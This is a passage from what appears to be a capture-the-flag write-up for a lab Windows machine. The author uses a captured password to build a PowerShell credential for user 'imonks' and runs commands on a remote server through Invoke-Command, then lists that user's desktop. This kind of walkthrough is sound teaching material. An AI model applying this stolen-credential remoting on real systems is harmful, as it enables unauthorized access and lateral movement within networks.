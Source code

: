 ### Open PSsession as `imonk`

As the captured screenshot, let's open a PSsession.

```powershell
PS C:\Utils> $pass = ConvertTo-SecureString "W3_4R3_th3_f0rce." -AsPlainText -Force

PS C:\Utils> $cred = New-Object System.Management.Automation.PSCredential("ACUTE\imonks", $pass)
```

Got an error when openning PSSession.
It says `Measure-Object` command is not recognized as cmdlet.

```powershell
PS C:\Utils> Enter-PSSession -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage
Enter-PSSession : The term 'Measure-Object' is not recognized as the name of a cmdlet, function, script file, or 
operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try 
again.
At line:1 char:1
+ Enter-PSSession -ComputerName ATSSERVER -Credential $cred -Configurat ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (Measure-Object:String) [Enter-PSSession], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
```

Instead, I can use `Invoke-Command`.

```powershell
PS C:\Utils> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { whoami }
acute\imonks               
```

I can now run commands as `imonks`!



# Shell as `jmorgan` on `Acute-PC01`

### Investigate powershell script

There is a powershell script on `imonks`'s home directory besides flag file : `wm.ps1`

```powershell
PS C:\Utils> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { ls C:\Users\imonks\Desktop }

    Directory: C:\Users\imonks\Desktop

Mode     LastWriteTime             Length Name        PSComputerName             
------------------------------------------------------------------------
-ar---     3/12/2025   3:30 PM       34   user.txt    ATSSERVER
-a----     1/11/2022   6:04 PM       602  wm.ps1      ATSSERVER   
```
